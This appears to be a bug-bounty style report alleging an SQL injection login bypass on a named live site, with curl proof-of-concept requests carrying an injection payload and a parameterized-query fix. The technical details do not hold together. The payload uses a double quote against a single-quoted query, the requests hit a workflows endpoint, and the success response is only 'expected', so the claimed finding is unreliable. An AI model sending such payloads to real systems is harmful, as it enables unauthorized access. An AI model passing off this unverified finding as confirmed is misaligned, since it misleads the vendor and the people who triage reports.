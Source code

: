 # SQL Injection Authentication Bypass

## Summary
- **Severity**: Critical
- **CVSS Score**: 9.8
- **Asset**: Authentication endpoint
- **Impact**: Complete authentication bypass

## Description
The authentication system is vulnerable to SQL injection attacks through the password parameter, allowing unauthorized access to admin accounts.

## Technical Details
The application constructs SQL queries by directly concatenating user input without proper sanitization:

```python
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
```

## Proof of Concept

### Step 1: Normal Authentication Attempt
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "test"}'
```

### Step 2: SQL Injection Bypass
```bash
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "\" OR 1=1--"}'
```

### Expected Response
```json
{
  "status": "success",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "user": "admin"
}
```

## Impact
- Complete authentication bypass
- Unauthorized admin access
- Potential data breach
- System compromise

## Remediation
Use parameterized queries:

```python
def authenticate_user(username, password):
    cursor.execute(
        "SELECT * FROM users WHERE username = ? AND password = ?",
        (username, password)
    )
```

## References
- OWASP Top 10: A03:2021 – Injection
- CWE-89: Improper Neutralization of Special Elements
